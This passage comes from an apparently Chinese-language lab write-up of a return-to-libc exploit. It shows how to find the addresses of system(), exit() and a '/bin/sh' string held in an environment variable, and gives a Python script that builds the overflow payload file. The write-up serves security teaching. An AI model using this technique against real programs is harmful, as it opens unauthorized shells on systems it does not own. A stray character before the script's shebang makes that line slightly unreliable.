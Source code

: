 
3.system地址

![image.png](https://i.loli.net/2020/11/17/LwXHuVCPonB2ir6.png)

4.字符串"/bin/sh"的地址

首先定义一个环境变量MYSHELL="/bin/sh"

```
export MYSHELL="/bin/sh"
```

删除时是`unset MYSHELL`

再打印地址

```c
#include<stdio.h>
#include<stdlib.h>

int main()
{
    char *shell=(char*)getenv("MYSHELL");
    if(shell)
    {
        printf("Value: %s\n",shell);
        printf("Address: %x\n",(unsigned int)shell);
    }
    return 1;
}
```

![image.png](https://i.loli.net/2020/11/17/JLS1suvj3Knp284.png)



5.system函数参数位置放哪（栈的哪里）

![image.png](https://i.loli.net/2020/11/17/vQU3s9ALyPphndj.png)查找偏移

```python
y#!/usr/bin/python3
import sys

# Fill content with non-zero values
content = bytearray(0xaa for i in range(517))

X = 44
sh_addr = 0xffffee5c      # The address of "/bin/sh"
content[X:X+4] = (sh_addr).to_bytes(4,byteorder='little')

Y = 40
system_addr = 0xf7e3eda0  # The address of system()
content[Y:Y+4] = (system_addr).to_bytes(4,byteorder='little')

Z = 36
exit_addr = 0xf7e329d0     # The address of exit()
content[Z:Z+4] = (exit_addr).to_bytes(4,byteorder='little')

# Save content to a file
with open("badfile", "wb") as f:
  f.write(content)
```
